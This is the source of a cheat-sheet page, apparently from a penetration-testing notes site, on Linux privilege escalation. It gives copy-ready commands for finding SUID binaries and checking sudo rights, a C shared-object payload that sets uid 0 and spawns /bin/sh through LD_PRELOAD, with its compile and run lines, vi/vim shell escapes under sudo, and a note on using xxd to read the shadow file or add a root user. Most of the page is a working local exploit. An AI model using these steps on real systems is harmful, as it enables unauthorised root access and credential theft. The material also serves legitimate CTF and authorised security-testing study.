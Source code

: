 ```yaml
---
layout: topics
page-title: SUID
files-suid: find / -perm -u=s -type f 2>/dev/null
commands: sudo -l
compile-command: gcc -fPIC -shared -o shell.so shell.c -nostartfiles
run-command: sudo LD_PRELOAD=/tmp/shell.so find
---
```


[Click on process, go to SUID section for command](https://gtfobins.github.io/){:target="_blank"}
{% include copy-code-blocks.html text='Print files that have SUID set: ' language='bash' code=page.files-suid %}
{% include copy-code-blocks.html text='List available commands for current user: ' language='bash' code=page.commands %}
If sudo -l displays: env_keep+=LD_PRELOAD --> Compile short c program that will start a shell and run using LD_PRELOAD the program that specified NOPASSWD.

Example program: 
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```
{% include copy-code-blocks.html text='Compile with: ' language='c' code=page.compile-command %}
{% include copy-code-blocks.html text='To become root, run program that can be run with NOPASSWD with: ' language='c' code=page.run-command %}

vi: 'sudo vi' then ':!sh'

vim: 'sudo vim' then ':!bash'

xxd: Allows to read files and write to files. Can be used to read shadow, to try to crack user pass or to add an entry to passwd file to create a new root user

